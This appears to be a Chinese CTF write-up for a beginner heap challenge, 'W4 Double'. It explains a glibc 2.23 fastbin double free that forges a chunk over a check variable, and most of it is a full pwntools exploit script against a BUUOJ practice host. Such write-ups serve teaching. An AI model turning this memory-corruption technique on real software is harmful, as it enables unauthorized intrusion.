

# W4 Double

## 文件分析

下载`Double`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 逆向

堆入门题，打开了我学习堆的大门

题目要求`check_num[2] = 0x666`就可以给shell，由于目标libc是2.23，
所以可以直接利用fastbin的double free，伪造一个块到check_num上
（size已经帮我们伪造好了）

## 前置知识

fastbin double free由于检查少，因此较为简单，但是仍要注意：
必须隔一个释放，且必须把需要伪造的块头处理好



## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29665)

def add(idx:int, con:bytes=b'what'):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(con)

def rem(idx:int):
    sh.recvuntil(b'>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def chk():
    sh.recvuntil(b'>')
    sh.sendline(b'3')

add(0)
add(1)
rem(0)
rem(1)
rem(0)

add(0, p64(0x602060)) # fd override (chunk 0 now points to fake chunk)
add(1)
add(2)

add(3, p64(0x666)) # fake chunk allocated
chk()
sh.interactive()
```

Done.
